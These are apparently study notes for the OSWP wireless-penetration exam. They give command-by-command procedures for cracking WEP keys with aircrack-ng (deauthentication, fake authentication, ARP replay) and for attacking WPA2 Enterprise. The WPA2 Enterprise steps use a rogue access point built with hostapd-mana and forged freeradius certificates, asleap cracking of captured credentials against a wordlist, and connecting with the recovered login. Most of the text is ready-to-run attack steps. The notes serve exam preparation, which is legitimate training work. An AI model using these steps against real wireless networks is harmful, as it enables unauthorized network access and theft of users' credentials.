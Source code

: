 # OSWP Notes
### Attacking WEP:

Prep monitoring interface

```
airmon-ng check kill
airmon-ng start wlan0
```

Setup active listener to catch traffic

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -w <OUTFILE> <IFACE>
```
  
Deauth to generate some data and reveal clients

```
aireplay-ng -0 0 -a <BSSID> <IFACE>
```
  
Fake auth to generate IVs

```
aireplay-ng -1 6 -e <SSID> -a <BSSID> -h <CLIENT MAC> <IFACE>
```

Use ARP replay to catch and replay ARP packets, which will generate more data / IVs

```
aireplay-ng -3 -b <BSSID> -h <CLIENT MAC> <IFACE>
```

Be patient, it'll take a while to get enough IVs

Start running aircrack on the pcap file to crack it:

```
aircrack-ng <file>
```

Connect to network:

```
sudo /sbin/ifconfig wlan0 up
sudo /sbin/iwlist wlan0 scan
sudo /sbin/iwconfig wlan0 essid "NetworkName"
sudo /sbin/iwconfig wlan0 key network_key
sudo /sbin/iwconfig wlan0 enc on
```

You may need to run `dhclient wlan0`

alternative method:

```
sudo iwconfig wlan0 essid <SSID> key s:<KEY>
sudo dhclient wlan0
```

### WPA2 Enterprise:

Look for WPA MGT network in airodump

Grab cert files from wireshark / tshark traffic using tls.handshake.type == 11,3 or tls.handshake.certificate filters
  - view Packet Details >> TLSv1 Record Layer: Handshake Protocol: Certificate
  - save certificates to file, right click cert string and click Export Packet Bytes

View SSL cert info:

```
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

Use freeradius to provide fake cert to clients
  - alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:
```
    [certificate_authority]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Such and Such Certificate Authority"
```
  - alter server block in /etc/freeradius/3.0/certs/server.cnf:
```
    [server]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Playtronics"
```
  - change dir to /etc/freeradius/3.0/certs/ and run:
  -- `rm dh`
  -- `make`

  - YOU WILL GET AN ERROR, but it doesn't matter

Setup hostapd-mana for the rogue AP using the (updated!) `mana.conf` file, move to `/etc/hostapd-mana/mana.conf`

Use mana.eap_user file, move to `/etc/hostapd-mana/mana.eap_user`

Start hostapd-mana:

```
hostapd-mana /etc/hostapd-mana/mana.conf
```

Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:

```
<asleap command> -W /usr/share/john/password.lst
```

Create `wpa_supplicant.conf` file:

```
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Connect to network:

`wpa_supplicant -c <config file>`


Don't forget the grab and submit the proof. 

